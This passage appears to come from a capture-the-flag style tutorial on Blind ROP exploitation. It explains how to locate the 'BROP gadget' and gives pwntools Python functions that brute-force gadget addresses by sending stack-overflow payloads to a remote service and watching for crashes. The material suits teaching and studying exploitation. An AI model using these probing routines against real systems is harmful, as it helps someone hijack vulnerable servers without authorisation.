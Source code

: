 ### Find BROP gadget
Now that we have a stop gadget, we can use it to find the BROP gadget.

We can test for a gadget using the following form of payload.

```
padding_bytes|canary|address|bytes to pop|stop gadget|bad addresses
```

For example, if we want to test for `pop rdi; pop rsi; ret`, our payload would be

```
padding_bytes|canary|address|8 bytes for rdi|8 bytes for rsi|stop gadget|bad addresses
```

If it really does pop 2 registers, we will safely return to stop gadget and the service will not crash. This is an indicator that the gadget we are testing for really pops 2 registers. Any more of any less than that will crash the service.

In our case, we want to find the BROP gadget that pops 6 registers. So our payload would be,

```
padding|address|48 bytes to pop|stop gadget|bad addresses
```

(note that we have no canary in this example)

One concern is would we get a false alarm? A gadget that pops 6 addresses but is not the end of `__libc_csu_init`? Statistically speaking, it is almost impossible to find another gadget in a binary that pops 6 registers apart from this.

```python
# checks if the gadget pops 6 registers
def get_brop_gadget(offset, stop_gadget, addr):
	try:
		r = remote(host, port)
		r.recvuntil('WelCome my friend,Do you know password?\n')
		r.send('a' * offset + p64(addr) + p64(0) * 6 + p64(stop_gadget) + p64(0) * 10)
		content = r.recv(timeout=0.1)
		r.close()
		return 'WelCome' in content
	except EOFError:
		r.close()
		return False
	except PwnlibException:
		return get_brop_gadget(offset, stop_gadget, addr)

# checks if it is not just a stop gadget itself
def check_brop_gadget(offset, addr):
	try:
		r = remote(host, port)
		r.recvuntil('WelCome my friend,Do you know password?\n')
		payload = 'a' * offset + p64(addr) + 'a' * 8 * 10
		r.sendline(payload)
		content = r.recv()
		r.close()
		return False
	except EOFError:
		r.close()
		return True
	except PwnlibException:
		return check_brop_gadget(offset, addr)

def find_brop_gadget(offset, stop_gadget):
	addr = 0x400000
	while True:
		if get_brop_gadget(offset, stop_gadget, addr) and check_brop_gadget(offset, addr):
			return addr
		addr += 1
```